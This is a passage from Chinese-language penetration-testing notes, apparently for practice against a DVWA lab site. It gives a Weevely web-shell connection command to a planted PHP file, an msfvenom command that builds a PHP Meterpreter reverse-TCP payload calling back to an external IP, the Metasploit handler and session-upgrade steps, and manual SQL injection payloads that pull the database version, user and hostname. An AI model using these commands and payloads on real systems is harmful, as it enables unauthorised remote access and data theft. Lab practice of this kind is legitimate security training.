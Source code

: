 進入Weevely Listener
```sh!
weevely 'https://digidvwa.azurewebsites.net/jim_lee/helpme.php' XD
```
使用Weevely自帶模組如`:audit_phpconf`, `:net_curl`、`:file_download`、`:file_upload` ...etc


##### Metasploit Meterpreter

```powershell!
# Generate meterpreter payload
$ msfvenom -p php/meterpreter/reverse_tcp LHOST=159.89.115.68 LPORT=7776 -e php/base64 -f raw > about.php

# 上傳到/jim_lee/
# 瀏覽器訪問/jim_lee/about.php

# Start Listnener
$ msfconsole
$ use multi/handler
$ set payload php/meterpreter/reverse_tcp
$ show options
$ set LHOST 0.0.0.0
$ set LPORT 7776
$ run

# Upgrade to Meterprter Shell
$ bg
$ sessions
$ sessions -u <session_id>
$ sessions <session_id>
```
**好用的模組:**
![](https://i.imgur.com/BsTCXdK.png)


Refer - 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md



## Sql Injection
* Manual

    **payload**: 
    `1' or 1=1#`

    **抓DBMS version**: 
    `1' UNION SELECT 1,@@version#`

    **抓User**: 
    `1' UNION SELECT 1, user()#`

    **抓Hostname**: 
    `1' UNION SELECT 1, @@hostname#`
